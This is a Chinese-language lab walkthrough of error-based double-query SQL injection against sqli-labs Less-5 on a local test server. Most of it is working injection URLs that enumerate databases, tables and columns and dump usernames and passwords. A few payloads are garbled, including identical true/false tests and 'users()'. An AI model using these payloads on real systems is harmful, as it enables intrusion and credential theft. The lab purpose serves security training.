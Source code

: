 ## 练习开始


首先打开http://127.0.0.1/Less-5/?id=1
![](luffy1.png)

less-5是基于错误的GET单引号变形字符型注入，位置在where之后且后跟limit


核心的语句在于
```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}

```

和之前的less-1的课程的查询语句一样，不一样的是本次不会直接输出报错内容了


`
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
`



测试用的payload
```
") and 1=1 %23 返回正确
") and 1=1 %23 返回错误

```

**%23和--+等价**


针对该题可以用盲注的方式搞定，根据本题标题，双注入 还是用显错式的方式


双查询注入的理解有点麻烦，先讲一下子查询，看一个简单的例子：
Select concat((select database()));

其中的select database()就是一个子查询

双查询注入需要理解mysql内置的四个函数

rand():该用于产生0（包含）到1（不包含）的随机数，
![](luffy4.png)

![](luffy6.png)

floor():floor(x)该函数返回X的最大整数值，但不能大于X
![](luffy5.png)

Count():汇总函数
![](luffy7.png)

concat():链接两个字符串
![](luffy8.png)

group by:根据(by)一定的规则进行分组(Group)




双注入的原理是当在一个聚合函数，比如count函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来。在双注入的时候count(*), floor(rand()*2), group by 缺一不可，同时注意表中的记录要多于三条
`
SELECT floor(rand()*2);
`

该函数从里向外看。rand() 返回大于0小于1的小数，乘以2之后就成了小于0小于2了。然后对结果进行取证。就只能是0或1了。也就是这个查询的结果不是1，就是0
![](luffy9.png)

`
SELECT CONCAT((SELECT database()), FLOOR(RAND()*2));
`
先看最里面的SELECT database() 这个就返回数据库名，这里就是security了。然后FLOOR(RAND()*2)这个上面说过了。不是0，就是1.然后把这两个的结果进行concat连接，那么结果不是security0就是security1了

![](luffy10.png)


最常见的查询方式是
`
select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from users group by a;
`
![](luffy11.png)

派生表的查询方式
`
select 1 from (select count(*), concat('~',(select user()),'~', floor(rand()*2)) as a from information_schema.tables group by a)x;
`
![](luffy12.png)




## 手工注入

###获取当前数据库

`
http://127.0.0.1/Less-5/?id=1'
`
![](luffy13.png)

看到语句出错，因为双注入查询利用的就是**print_r(mysql_error());**回显错误信息

获取当前数据库版本
`
http://127.0.0.1/Less-5/?id=' union select 1, count(*), concat('~',(select version()),'~', floor(rand()*2)) as a from users group by a --+
`

获取当前用户
`
http://127.0.0.1/Less-5/?id=' union select 1, count(*), concat('~',(select users()),'~', floor(rand()*2)) as a from users group by a --+
`
![](luffy15.png)




### 判断当前数据库数量


`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select count(*) from information_schema.schemata where table_schema="security" ),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

`
![](luffy16.png)
一共五个数据库

判断第一个数据库
`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select schema_name from information_schema.schemata limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`
![](luffy17.png)
通过修改limit之后的第一个参数逐步遍历数据库



### 检查security数据库的表


`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select count(*) from information_schema.tables where table_schema="security" ),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`
![](luffy18.png)

可以知道security有四个表



通过修改limit之后的第一个参数逐步遍历数据库的表
`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select table_name from information_schema.tables where table_schema="security" limit 0,1 ),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`
![](luffy19.png)


### 检查security数据库中user表的列

判断列的数量
`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select count(*) from information_schema.columns where table_schema='security' and table_name="users"),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

`
![](luffy20.png)

检查列的内容
`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select column_name from information_schema.columns where table_schema='security' and table_name="users" limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

`
![](luffy21.png)


### 爆出数据

`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select concat_ws(":",username,password) from users limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`

![](luffy12.png)







双注入的原理解释
[链接一](http://www.myhack58.com/Article/html/3/7/2016/73471.htm)
[链接二](https://www.cnblogs.com/dplearning/p/7355595.html)


